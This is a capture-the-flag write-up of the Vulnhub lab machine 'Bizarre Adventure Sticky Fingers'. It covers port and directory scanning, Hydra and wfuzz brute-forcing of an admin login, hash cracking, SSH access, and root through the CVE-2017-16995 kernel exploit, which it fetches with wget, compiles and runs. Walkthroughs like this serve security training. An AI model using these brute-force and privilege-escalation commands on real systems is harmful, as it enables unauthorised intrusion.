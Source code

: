 ```yaml
---
title: Vulnhub - Bizarre Adventure Sticky Fingers
description: My writeup on Bizarre Adventure Sticky Fingers box.
categories:
 - vulnhub
tags: vulnhub hydra ssh base64 kernel wfuzz
---
```


![](https://i.kym-cdn.com/photos/images/original/001/420/906/1c2.jpg)

You can find the machine there > [Bizarre Adventure Sticky Fingers](https://www.vulnhub.com/entry/bizarre-adventure-sticky-fingers,560/){:target="_blank"}

## Summary

To be honest, i didn't really like this box. The way you get shell is waste of time anyway..! We start by finding an admin page and brute force it using hydra after looooooong time we get the password. Then after some decoding/decrypting we get a password, from the images we get the username and we're in. Privilege escalation to root is a simple kernel exploit. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.17
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 00:26 EEST
Nmap scan report for stickyfingers.zte.com.cn (192.168.1.17)
Host is up (0.00056s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
5355/tcp open  llmnr
MAC Address: 08:00:27:7C:38:71 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.23 seconds
$ nmap -p 22,53,80,5355 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 00:27 EEST
Nmap scan report for stickyfingers.zte.com.cn (192.168.1.17)
Host is up (0.00048s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c6:35:09:72:d4:d9:5c:17:56:06:f9:53:c4:90:2f:8d (RSA)
|   256 98:52:48:9e:cc:64:46:94:43:2a:70:52:d1:79:8c:4c (ECDSA)
|_  256 c0:57:d2:9f:fb:70:c8:c6:66:5e:16:17:5b:08:b9:8f (ED25519)
53/tcp   open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: NIVEL 1
5355/tcp open  llmnr?
```

Port 80 has a static website nothing interesting, let's run a `gobuster` scan.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/index.html (Status: 200)
/images (Status: 301)
/admin (Status: 301)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/fonts (Status: 301)
```

`/admin` has a login page, tried some classic stuff like `admin:admin` `guest:guest` etc but nothing. I checked the `/images` folder and i found a file called `Flag.txt.txt` this file has 2 possible usernames in:

```
$ curl http://192.168.1.17/images/Flag.txt.txt
EASY EASY EASY

Zipperman is cool!

Bucciarati
```

## Shell as bucciarati

Let's fire up hydra on login page. Here is the stupid part.. we have to wait l000000000000000ng time to get the password because the password is in line `1044216` :

```
$ cat /usr/share/wordlists/rockyou.txt | grep -n "Password@123" 
1044216:Password@123
```

Just grab it and save your time. :smile: I'll make another wordlist with this password in to show you the hydra command.

```
$ hydra -l Zipperman -P wordlist.txt $ip http-post-form "/admin/index.php:username=Zipperman&pass=^PASS^:Login Failed"

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-24 00:40:34
[DATA] max 4 tasks per 1 server, overall 4 tasks, 4 login tries (l:1/p:4), ~1 try per task
[DATA] attacking http-post-form://192.168.1.17:80/admin/index.php:username=Zipperman&pass=^PASS^:Login Failed
[80][http-post-form] host: 192.168.1.17   login: Zipperman   password: Password@123
```

You can also use `wfuzz`:

```
$ wfuzz -c -w wordlist.txt -d "username=Zipperman&pass=FUZZ" --hc 200 http://192.168.1.17/admin/index.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.17/admin/index.php
Total requests: 4

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                 
===================================================================

000000004:   302        88 L     176 W    2643 Ch     "Password@123"                   
```

We're in as `Zipperman:Password@123`, and after we login redirect us to `/37d1d7d74bef0e8fafe6f8dc37ee25b0` we can see some ascii arts and a base64 string, let's decode it.

```
$ echo ODBlNDEzMDQwNzFjYmY1ODU2NTM2ZTM5MGYzYzc3ZjQ0NWE0OGVjMDE3NzQwNzdiOGM2ODNlMzA5YzUzMTMyOQ== | base64 -d
80e41304071cbf5856536e390f3c77f445a48ec01774077b8c683e309c531329
```

Hmm seems like a hash, let's check it using `hash-identifier`:

```
HASH: 80e41304071cbf5856536e390f3c77f445a48ec01774077b8c683e309c531329 

Possible Hashs:
[+] SHA-256
```

Perfect, let's use [crackstation](https://crackstation.net/){:target="_blank"} to crack it.

![](https://i.imgur.com/5RWBCEb.png)

Now we can use the other username we found before and login in with SSH. `bucciarati:1Password1*`

```
$ ssh bucciarati@$ip                                                                                       
bucciarati@192.168.1.17's password: 

bucciarati@stickyfingers:~$ whoami;id
bucciarati
uid=1000(bucciarati) gid=1000(bucciarati) groups=1000(bucciarati),46(plugdev)
```

## Shell as root

I did lot of enumeration and i found nothing. I checked the history and i found something really interesting:

```
bucciarati@stickyfingers:~$ history
...data...
90  wget http://10.0.0.39:8000/CVE-2017-16995.c
91  gcc CVE-2017-16995.c -o cve2017
```

Probably maker forgot to delete it? anyway i found the exploit [here](https://www.exploit-db.com/exploits/45010){:target="_blank"} and let's use it.

```
bucciarati@stickyfingers:/tmp$ wget -q https://www.exploit-db.com/raw/45010 -O exploit.c
bucciarati@stickyfingers:/tmp$ gcc exploit.c -o exploit
bucciarati@stickyfingers:/tmp$ chmod + exploit
bucciarati@stickyfingers:/tmp$ ./exploit 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8e4c3c70e300
[*] Leaking sock struct from ffff8e4c36699000
[*] Sock->sk_rcvtimeo at offset 592
[*] Cred structure at ffff8e4c3c6e1cc0
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff8e4c3c6e1cc0
[*] credentials patched, launching shell...
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),46(plugdev),1000(bucciarati)
```

Let's read the flag:

```
# cat flag.txt.txt
                 uuuuuuu
             uu$$$$$$$$$$$uu
          uu$$$$$$$$$$$$$$$$$uu
         u$$$$$$$$$$$$$$$$$$$$$u
        u$$$$$$$$$$$$$$$$$$$$$$$u
       u$$$$$$$$$$$$$$$$$$$$$$$$$u
       u$$$$$$$$$$$$$$$$$$$$$$$$$u
       u$$$$$$"   "$$$"   "$$$$$$u
       "$$$$"      u$u       $$$$"
        $$$u       u$u       u$$$
        $$$u      u$$$u      u$$$
         "$$$$uu$$$   $$$uu$$$$"
          "$$$$$$$"   "$$$$$$$"
            u$$$$$$$u$$$$$$$u
             u$"$"$"$"$"$"$u
  uuu        $$u$ $ $ $ $u$$       uuu
 u$$$$        $$$$$u$u$u$$$       u$$$$
  $$$$$uu      "$$$$$$$$$"     uu$$$$$$
u$$$$$$$$$$$uu    """""    uuuu$$$$$$$$$$
$$$$"""$$$$$$$$$$uuu   uu$$$$$$$$$"""$$$"
 """      ""$$$$$$$$$$$uu ""$"""
           uuuu ""$$$$$$$$$$uuu
  u$$$uuu$$$$$$$$$uu ""$$$$$$$$$$$uuu$$$
  $$$$$$$$$$""""           ""$$$$$$$$$$$"
   "$$$$$"                      ""$$$$""
     $$$"                         $$$$"

FLAG{JoJ0sZ_B1Z4RrR3_AddV3nT9R3_}

create by Joas Antonio
Linkedin:https://bit.ly/3ki1WBE
```
